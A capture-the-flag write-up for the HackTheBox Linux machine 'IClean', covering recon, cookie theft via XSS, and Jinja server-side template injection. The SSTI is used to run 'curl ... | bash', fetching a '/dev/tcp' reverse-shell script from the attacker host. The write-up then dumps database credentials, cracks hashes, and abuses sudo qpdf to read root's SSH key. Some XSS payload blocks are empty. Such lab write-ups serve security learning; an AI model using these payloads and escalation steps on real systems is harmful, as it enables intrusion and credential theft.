

<div style="display: flex; align-items: center;">
  
  <div>
    <p style="font-size:35px;"><b>IClean</b></p>
    <p style="font-size:20px;">Linux • <font color="#fbaf3f">Medium</font></p>
  </div>
</div>

## Nmap - Directory Busting

We have the machine IP.\
Through an nmap scan we see the following:
```bash
$ nmap -p- -sV -sC -T4 10.10.11.12
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-19 10:19 EDT
Warning: 10.10.11.12 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.12
Host is up (0.083s latency).
Not shown: 65323 closed tcp ports (conn-refused), 210 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 2c:f9:07:77:e3:f1:3a:36:db:f2:3b:94:e3:b7:cf:b2 (ECDSA)
|_  256 4a:91:9f:f2:74:c0:41:81:52:4d:f1:ff:2d:01:78:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 504.75 seconds
```

We will also look around the website. There we find `/login` which might be useful, as well as `services`,`/about`, `choose` and `/team` that don't seem all that interesting.


We will also try some (sub)directory fuzzing.
```bash
$ gobuster dir -u http://capiclean.htb -w /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://capiclean.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/about                (Status: 200) [Size: 5267]
/choose               (Status: 200) [Size: 6084]
/dashboard            (Status: 302) [Size: 189] [--> /]
/login                (Status: 200) [Size: 2106]
/logout               (Status: 302) [Size: 189] [--> /]
/quote                (Status: 200) [Size: 2237]
/server-status        (Status: 403) [Size: 278]
/services             (Status: 200) [Size: 8592]
/team                 (Status: 200) [Size: 8109]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

From that we also find `/quote` (which we can access right now), `/server-status`, `/dashboard` and `/logout`.


```bash
$ ffuf -u http://capiclean.htb/ -H 'Host: FUZZ.capiclean.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fs 274
```

## Checking all user inputs

### Not logged in: XSS steal cookie

After testing out the inputs on `/login` and `/quote` for SQL Injection/XSS we see that using `` with a netcat listener we get a request:\


I tried a few different ways, `<script>` ones didn't seem to be working, and neither were these:
```html


```

I finally got the cookie using:
```html

```


And now decoding the text from base64, we get our cookie, and add it on our browser:\


### Logged in: SSTII (Server Side Template Injection)

On our dashboard we get access to 4 more pages `/InvoiceGenerator`, `/QRGenerator`, `/EditServices`, `/QuoteRequests`.

We create an invoice, and use the generated id to create a QR code. We can also use the link to the QR code to generate a printable version of the invoice.

On the `/EditServices` we can edit the name, description, price and quantity of any of the available services, with the exception of `Move-in/Move-out Cleaning` probably due to how the url is "generated" afterwards to edit the actual service.

We will once again check all our available user inputs.

After some time, I noticed that adding `<%25'${{/%23{%40}}%25>{{` as the value on `POST /QRGenerator` results in a `500 INTERNAL SERVER ERROR`. Knowing that, we try some different stuff:


We see that `{{7*7}}` results in `49`. Looks like the examples found [here](https://medium.com/@yadav-ajay/ssti-server-side-template-injection-746dda439038) worked for this case:


With that, we can identify that the server is using Jinja, a templating language for Python.

A lot of different attacks seemed to get filtered, but [this article by Chivato](https://hackmd.io/@Chivato/HyWsJ31dI) mentions this command:\
`{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']()}}`


Which works great! 

I tried using it to get reverse shell, but I couldn't get it to work, same with a slightly different command from the same article.

So I thought I'd try a different way:

We set up a netcat listener:
```bash
$ nc -lvp 4444
```

Additionally, we create an exploit file and set up a server:
```bash
$ echo "bash -i >& /dev/tcp/10.10.14.137/4444 0>&1" > exploit.sh
$ sudo python3 -m http.server 80
```

Now, we send the following command to our victim:
`{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('curl 10.10.14.137/exploit.sh | bash')['read']()}}`


And we're in!

## Looking for flags

We find this email:
```bash
www-data@iclean:/opt/app$ cat /var/spool/mail/consuela
cat /var/spool/mail/consuela
To: <consuela@capiclean.htb>
Subject: Issues with PDFs
From: management <management@capiclean.htb>
Date: Wed September 6 09:15:33 2023


Hey Consuela,

Have a look over the invoices, I've been receiving some weird PDFs lately.

Regards,
Management
```

### MySQL

From the code on `opt/app/app.py` we also find that there is a `mysql` database used to store information such as invoices, and in the same file we also find this:
```py
# Database Configuration                                                                                     
db_config = {                                                                                                
    'host': '127.0.0.1',                                                                                     
    'user': 'iclean',                                                                                        
    'password': 'pxCsmnGLckUb',                                                                              
    'database': 'capiclean'                                                                                  
}
```

We can try to access the database. The machine seemed to be extremely slow at this point, and I was having a bit of trouble. So instead of simply connecting to the database once, I tried executing all my commands individually.
```bash
www-data@iclean:/opt/app$ mysql --user='iclean' --password='pxCsmnGLckUb' --database='capiclean' --execute='show databases;'
...
Database
capiclean
information_schema
performance_schema
www-data@iclean:/opt/app$ mysql --user='iclean' --password='pxCsmnGLckUb' --database='capiclean' --execute='show tables;'
...
Tables_in_capiclean
quote_requests
services
users
www-data@iclean:/opt/app$ mysql --user='iclean' --password='pxCsmnGLckUb' --database='capiclean' --execute='select * from users;'
...
id      username        password        role_id
1       admin   2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51        21232f297a57a5a743894a0e4a801fc3
2       consuela        0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa        ee11cbb19052e40b07aac0ca060c23ee
```

Now that looks very useful!

Looking back at `opt/app/app.py` we find this:
```py
password = hashlib.sha256(request.form['password'].encode()).hexdigest()
```

So we can use `hashcat` to crack our passwords:
```
$ hashcat -m 1400 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

Using `consuela`'s password, we can login as her, and get our user flag!

However, we couldn't seem to crack the admin's password.

```bash
consuela@iclean:~$ sudo -l
[sudo] password for consuela: 
Matching Defaults entries for consuela on iclean:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User consuela may run the following commands on iclean:
    (ALL) /usr/bin/qpdf
```

Looking online we find:
> QPDF is both a software library and a free command-line program that can convert one PDF file to another equivalent PDF file. It is capable of performing transformations such as linearization, encryption, and decryption of PDF files.

After some online search I found that it is possible to use `qpdf` to copy a file to another: `qpdf file1.pdf --copy-encryption=file1.pdf file2.pdf`\
However, the following command didn't seem to work:
```bash
consuela@iclean:/tmp$ sudo /usr/bin/qpdf /root/root.txt --copy-encryption=/root/root.txt /tmp/flag
WARNING: /root/root.txt: can't find PDF header
WARNING: /root/root.txt: file is damaged
WARNING: /root/root.txt: can't find startxref
WARNING: /root/root.txt: Attempting to reconstruct cross-reference table
qpdf: /root/root.txt: unable to find trailer dictionary while recovering damaged file
```

After a long while, I figured out how to copy a non-pdf file to another using `qpdf`.\
With that , we could try and get access as root using root's Private RSA Key, as shown in [this tutorial](https://assume-breach.medium.com/hacking-tutorial-how-to-ssh-to-a-remote-system-with-a-found-private-key-fbe521bf1efa).

```bash
consuela@iclean:/tmp$ sudo /usr/bin/qpdf --empty /tmp/flag.txt --add-attachment /root/.ssh/id_rsa -- 
```

From that we can get root's private key, copy it on our own machine and connect through ssh.

```bash
$ chmod 600 id_rsa
$ ssh root@10.10.11.12 -i id_rsa
```

And now we can finally get the root flag!
